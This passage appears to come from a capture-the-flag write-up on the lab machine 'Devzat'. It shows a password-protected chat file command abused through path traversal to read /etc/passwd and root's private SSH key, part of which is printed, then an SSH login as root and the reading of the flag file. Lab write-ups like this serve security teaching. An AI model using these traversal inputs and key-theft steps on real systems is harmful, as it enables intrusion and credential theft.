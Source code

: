 

If I try to run it, it needs the password:



    oxdf: /file notAFile
    [SYSTEM] You need to provide the correct password to use this function
    oxdf: /file notAFile badPass
    [SYSTEM] You did provide the wrong password



With the right password, it leaks the path of the running process,
`/root/devzat`:



    oxdf: /file notAFile CeilingCatStillAThingIn2021?
    [SYSTEM] The requested file @ /root/devzat/notAFile does not exist!



I'm able to read `/etc/passwd`:



    oxdf: /file ../../etc/passwd CeilingCatStillAThingIn2021?
    [SYSTEM] root:x:0:0:root:/root:/bin/bash
    [SYSTEM] daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    [SYSTEM] bin:x:2:2:bin:/bin:/usr/sbin/nologin
    [SYSTEM] sys:x:3:3:sys:/dev:/usr/sbin/nologin
    [SYSTEM] sync:x:4:65534:sync:/bin:/bin/sync
    [SYSTEM] games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ...[snip]...



I can also read an SSH key from `/root/.ssh`:



    oxdf: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
    [SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
    [SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    [SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
    ...[snip]...
    [SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
    [SYSTEM] -----END OPENSSH PRIVATE KEY-----



### SSH

With that key, I can connect over SSH:



    oxdf@hacky$ ssh -i ~/keys/devzat-root root@devzat.htb
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
    ...[snip]...
    Last login: Sun Oct 17 15:57:45 2021 from 10.10.14.9
    root@devzat:~#



And grab `root.txt`:



    root@devzat:~# cat root.txt
    d7bb5cba************************







